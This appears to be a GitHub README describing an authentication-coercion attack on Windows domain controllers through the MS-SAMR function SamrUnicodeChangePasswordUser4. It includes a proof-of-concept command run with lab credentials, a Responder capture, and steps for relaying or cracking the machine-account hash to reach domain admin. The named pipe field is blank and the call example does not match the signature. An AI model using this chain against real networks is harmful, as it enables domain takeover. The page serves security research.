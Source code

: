 # MS-SAMR - Remote call to SamrUnicodeChangePasswordUser4 (opnum 73)

## Summary

+ **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

+ **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`SamrUnicodeChangePasswordUser4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/bbc1c5e5-9b81-4038-b2b9-c87d3569ed38)

+ **Function operation number**: `73`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrUnicodeChangePasswordUser4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/bbc1c5e5-9b81-4038-b2b9-c87d3569ed38) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrUnicodeChangePasswordUser4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS
 SamrUnicodeChangePasswordUser4(
     [in]         handle_t BindingHandle,
     [in,unique]  PRPC_UNICODE_STRING  ServerName,
     [in]         PRPC_UNICODE_STRING  UserName,
     [in]         PSAMPR_ENCRYPTED_PASSWORD_AES   EncryptedPassword
     );
```

## References

+ Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

+ Documentation of function `SamrUnicodeChangePasswordUser4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/bbc1c5e5-9b81-4038-b2b9-c87d3569ed38
